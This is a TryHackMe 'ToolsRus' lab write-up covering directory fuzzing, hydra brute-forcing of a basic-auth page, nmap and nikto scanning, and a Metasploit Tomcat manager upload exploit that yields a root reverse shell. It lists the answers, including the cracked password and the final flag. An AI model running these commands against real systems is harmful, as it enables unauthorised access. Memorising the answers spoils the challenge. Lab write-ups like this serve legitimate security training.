







ToolsRus
Platform: TryHackMe
Type: Challenge
Difficulty: Easy
Link: ToolsRus
Description
"Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit"
Overview
This "Challenge" room was presented as an opportunity to practice using basic tools rather than a whole CTF journey as is common with THM challenges. As such, this is not a full blow-by-blow walkthrough and merely details the tools and commands used to complete the tasks in the challenge.
Task 1:
Directory discovery
Process
Tool used: ffuf
Command: ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c
Output:

Answer
What directory can you find, that begins with a 'g'?
guidelines
Tasks 2 and 3
Web page enumeration
Process
Tool used: web browser (navigate to directories discovered in ffuf scan)
Output (2):
Output (3):

Answer (2)
Whose name can you find from this directory?
bob
Answer (3)
What directory has basic authentication?
protected
Task 4
Password brute forcing
Process
Tool used: hydra
Command used: hydra -l bob -P /usr/share/wordlists/rockyou.txt -f <IP ADDRESS> http-get /protected
Output:

Answer
What is bob's password to the protected part of the website?
bubbles
Tasks 5 and 6
Service enumeration
Process
Tool used: nmap
Commands used:
ports=$(nmap -Pn -p- --min-rate=1000 <IP ADDRESS> | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -A -T4 <IP ADDRESS>

Answer (5)
What other port that serves a webs service is open on the machine?
1234
Answer (6)
What is the name and version of the software running on the port from question 5?
Apache Tomcat/7.0.88
Task 7
Web application enumeration
Process
Tool used: nikto
Command used: nikto -host <IP ADDRESS> -id 'bob:<PASSWORD>' -port <PORT> -root '/manager/html' -Cgidirs none
Output:

Answer
How many documentation files are found?
7
Tasks 8 and 9
Service enumeration
Process
Tool used: nmap
Command used: N/A - used output from tasks 5 and 6
Answer (8)
What is the server version?
Apache/2.4.18
Answer (9)
What version of Apache-Coyote is this service using?
1.1
Task 10
Vulnerability exploitation
Process
Tool used: msfconsole
Command used:
msfconsole -q -x "use exploit/multi/http/tomcat_mgr_upload; set HttpPassword <PASSWORD>; set HttpUsername bob; set RHOSTS <IP ADDRESS>; set RPORT <PORT>; set LHOST <VPN NETWORK INTERFACE>; exploit"
getuid

Answer
What user did you get a shell as?
root
Task 11
Obtain flag
Process
Tool used: meterpreter (shell obtained from msfconsole commands in Task 10)
Commands used:
ls -l /root
cat /root/<FILE NAME>

Answer
What flag is found in the root directory?
ff1fc4a81affcc7688cf89ae7dc6e0e1
Tools Used
ffuf hydra nmap nikto msfconsole
Date completed: 17/03/26
Date published: 17/03/26